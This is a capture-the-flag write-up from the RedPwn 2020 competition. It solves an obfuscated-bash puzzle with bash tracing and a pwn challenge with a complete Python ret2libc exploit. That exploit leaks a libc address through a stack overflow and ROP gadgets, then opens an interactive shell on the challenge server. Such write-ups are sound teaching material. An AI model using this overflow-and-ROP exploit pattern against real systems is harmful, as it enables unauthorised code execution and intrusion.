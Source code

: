 ```yaml
---
layout: post
title: RedPwn CTF Writeup
date: 2020-06-25 01:00 +0700
modified: 2020-03-07 16:49:47 +07:00
description: Our First Team CTF
tag:
  - ctf
  - writeup
image: /cara-memperbarui-fork-repository/repo.png
---
```

# Categories 

+  [Misc](#misc)
+  [Pwn](#pwn)

## Misc
### misc/uglybash
**Solved By:** tbutler0x90  
**Points:** 359  
**Flag:** flag{us3_zsh,-dummy}

##### Challenge
This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?    

*Exerpt of Challenge Script, cmd.sh*
>  ```${*%c-dFqjfo}  e$'\u0076'al "$(   ${*%%Q+n\{}   "${@~}" $'\160'r""$'\151'$@nt"f" %s   ' }~~@{$"```

##### Solution
1) To see what the bash script evaluates to just prior to execution, the subshell option was used to run the entire script in debug mode with the -x flag. Additionally, parameters were added to the script to print the debug output to a file.

```bash
#!/bin/bash
exec 5> debug_output.txt
BASH_XTRACEFD="5"
### original script goes below here
```
2) The script was run with the -x flag. 
```bash
bash -x cmd.exe
```

3) Flag was located in the comments along the left side in the debug_output.txt, lines 70 -108  
<figure>
<img src="uglybash.png" alt="results of debug">
<figcaption>Fig 1. Flag is spelled out downwards on the left side</figcaption>
</figure>

## Pwn
### pwn/the-library
**Solved By:** cernec1999  
**Points:** 424  
**Flag:** flag{jump_1nt0_th3_l1brary}

##### Challenge
There's not a lot of useful functions in the binary itself. I wonder where you can get some...

##### Solution
When solving a binary exploitation task, the first step I normally take is to check out the permissions of the binary. We can use the ```checksec``` tool to do this. Additionally, we should check out the architecture of the binary.

```console
cernec1999@ccerne:~/Downloads$ checksec the-library
[*] '/home/cernec1999/Downloads/the-library'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
cernec1999@ccerne:~/Downloads$ file the-library 
the-library: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3067a5291814bef337dafc695eee28f371370eae, not stripped
```

With this information, it seems that intermediate binary exploitation techniques can be applied to solve this challenge. Fortunately, there are no stack cookies and the binary is not position independent. However, DEP is enabled, so we cannot simply jump to the stack to run shellcode.

Because of the challenge name, ```the-library```, my best assumption is that we need to jump to libc.

We are given no information about the host system, but we can assume that full ASLR is enabled and that the libraries are randomized. This means that every time a binary executes, the kernel assigns it a new base address to make exploitation harder. Thus, there must be a way for us to somehow leak the libc base address for system.

Unfortunately, we cannot use a print format vulnerability to leak the base address of libc. Instead, we can use a traditional buffer overflow vulnerability, utilizing some ROP gadgets, to gather the information that we need. Fortunately, we are given the source, so we can easily figure out how to trigger the overflow.

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to the library... What's your name?");

  read(0, name, 0x100);
  puts("Hello there: ");
  puts(name);
}
```

Using GDB, I figured out that exactly 24 bytes can be written into ```name``` before the return address is written to. Next, it is time to figure out useful gadgets to leak the libc base address. This should be pretty easy with a couple of leaked gadgets. In the Global Offset Table, at address ```0x600ff0``` is where ```__libc_start_main``` is stored. We can call ```puts``` in the binary to leak this address. Finally, we should jump back to the start of the code to get another overflow to jump to the ```system``` address in the libc library. Here is the code to do all of that:

```python
import struct, sys, telnetlib

# Connection info
HOST = '2020.redpwnc.tf'
PORT = '31350'

# Init a new Telnet session
my_tel = telnetlib.Telnet(HOST, PORT)

def p64_b(num):
    return struct.pack('<Q', num)

def p64_i(b_arr):
    return struct.unpack('<Q', b_arr)[0]

# Gadgets to leak libc
POP_RDI_RET = p64_b(0x400733)
LIBC_START = p64_b(0x600ff0)
PUTS_PLT = p64_b(0x400520)
START = p64_b(0x400550)

# Leak __libc_start_main address then jump 
chain = b'A'*24 + POP_RDI_RET + LIBC_START + PUTS_PLT + START
my_tel.write(chain)
```

Next, given this information, we should figure out where in libc to jump to. Fortunately, we are given the libc that is linked at runtime on the host system. There is a [great resource you can use](https://libc.blukat.me/) to identify a version of libc easily. I used this tool to figure out that the library is ```libc6_2.27-3ubuntu1_amd64```. It additionally calculated the offsets to useful functions.

![libc6_2.27-3ubuntu1_amd64 offsets](libc.png)

Using this useful information, we can do the following:

1. Put a pointer to /bin/sh into RDI
2. Jump to system

Thus, our finished exploit looks like this:

```python
#!/usr/bin/python3

import struct, sys, telnetlib

# Connection info
HOST = '2020.redpwnc.tf'
PORT = '31350'

# Init a new Telnet session
my_tel = telnetlib.Telnet(HOST, PORT)

def p64_b(num):
    return struct.pack('<Q', num)

def p64_i(b_arr):
    return struct.unpack('<Q', b_arr)[0]

# Gadgets to leak libc
POP_RDI_RET = p64_b(0x400733)
LIBC_START = p64_b(0x600ff0)
PUTS_PLT = p64_b(0x400520)
START = p64_b(0x400550)

# Leak __libc_start_main address then jump 
chain = b'A'*24 + POP_RDI_RET + LIBC_START + PUTS_PLT + START
my_tel.write(chain)

# Get rid of junk
my_tel.read_until(b'there: ')
my_tel.read_until(b'\x0a')
my_tel.read_until(b'\x0a')

# Find address of libc, then turn it into system
libc_base = p64_i(my_tel.read_very_eager()[0:6] + b'\x00\x00')

# Now, with new information, jump to system!
BIN_SH_STR = p64_b(libc_base + 0x1923ea)
RET_GADGET = p64_b(0x400506)
SYSTEM_ADDR = p64_b(libc_base + 0x2d990)

# Construct the ROP chain
chain = b'A' * 24 + POP_RDI_RET + BIN_SH_STR + RET_GADGET + SYSTEM_ADDR

my_tel.write(chain)
my_tel.interact()
```

Viola!

```console
cernec1999@ccerne:~/Downloads$ ./exp.py 
Hello there: 
AAAAAAAAAAAAAAAAAAAAAAAA3@
cat flag.txt
flag{jump_1nt0_th3_l1brary}
```